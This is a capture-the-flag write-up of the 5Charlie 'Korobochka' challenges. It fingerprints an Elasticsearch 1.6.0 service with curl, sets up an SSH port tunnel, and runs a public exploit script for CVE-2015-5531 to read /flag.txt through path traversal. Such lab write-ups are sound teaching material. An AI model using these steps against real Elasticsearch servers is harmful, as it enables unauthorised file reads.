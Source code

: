```yaml
---
title: "5Charlie CTF - Korobochka"
date: 2020-04-28 20:32:38 -0500
classes: wide
categories:
  - write-up
tags:
  - ctf
  - write-up
  - elastic
  - linux
  - hacking
---
```


A write-up of the "Korobochka" Elastic hacking challenge from 5Charlie CTF.

## Korobochka 1

### Korobochka 1 - Challenge

To access these challenges, ssh to korobochka@haxor.5charlie.com using the attached private key.

What is the version number of the elasticsearch service running on 172.90.0.2?

**Attachments:** `id_korobochka` - SSH Key

### Korobochka 1 - Solution

The default port for ElasticSearch is 9200, so let's just curl that.

{% highlight bash %}
curl http://172.90.0.2:9200
{% endhighlight %}

``` text
bash-5.0$ curl http://172.90.0.2:9200
{
  "status" : 200,
  "name" : "Attuma",
  "cluster_name" : "elasticsearch",
  "version" : {
    "number" : "1.6.0",
    "build_hash" : "cdd3ac4dde4f69524ec0a14de3828cb95bbb86d0",
    "build_timestamp" : "2015-06-09T13:36:34Z",
    "build_snapshot" : false,
    "lucene_version" : "4.10.4"
  },
  "tagline" : "You Know, for Search"
}
```

There it is!

**Flag:** `1.6.0`

## Korobochka 2

### Korobochka 2 - Challenge

What is the flag in /flag.txt on 172.90.0.2? (format: flag{some_text})

### Korobochka 2 - Solution

Given that this version is very old, the challenge is asking for something that's not normally available in Elastic, and we just had to figure out the version of the service, it's a fair bet that we're looking for an exploit for the service.

Nailed it. First result on Google for me:
https://www.exploit-db.com/exploits/38383

{% highlight bash %}
python2 38383.py localhost /flag.txt
{% endhighlight %}

``` text
bash: python: command not found
```

Oh... That's fine, we'll just make an SSH tunnel and run it on our own box.

{% highlight bash %}
ssh -Nf -L 9200:172.90.0.2:9200 -o "identitiesOnly=yes" -i ./id_korobochka korobochka@haxor.5charlie.com
{% endhighlight %}

If you're not familiar with SSH tunneling, here's a quick breakdown of the above.

- `-N`: Do not execute a remote command.  This is useful for just forwarding ports.
- `-f`: Requests ssh to go to background just before command execution. (So we can reuse the terminal)
- `-L`: Specifies that connections to the given TCP port or Unix socket on the local (client) host are to be forwarded to the given host and port, or Unix socket, on the remote side.
  - `[bind_address:]port:host:hostport`
  - ELIF: We're telling SSH to forward any traffic that goes to our local port 9200 across the SSH tunnel and then send it to `172.90.0.2:9200`

The other options aren't really useful to the tunnel, feel free to look them up.

Now that our tunnel is set up, let's run it.

{% highlight bash %}
python2 38383.py localhost /flag.txt
{% endhighlight %}

``` text
➜  korobochka python2 38383.py localhost /flag.txt
!dSR script for CVE-2015-5531

flag%7Byou_know%2C_for_search%7D
```

**Flag:** `flag{you_know,_for_search}`

## Additional Notes

I'll be honest, I actually tunneled at the very beginning.
When it comes to database-related challenges, I usually start with that and forward it to a local GUI so that I can access the information faster.

For this chall I tried forwarding it to DataGrip, Kibana, and DejaVu, but unfortunately the version of Elastic was so lod that none of them could communicate properly.

Usually this is a very effective technique for me though, especially DataGrip.
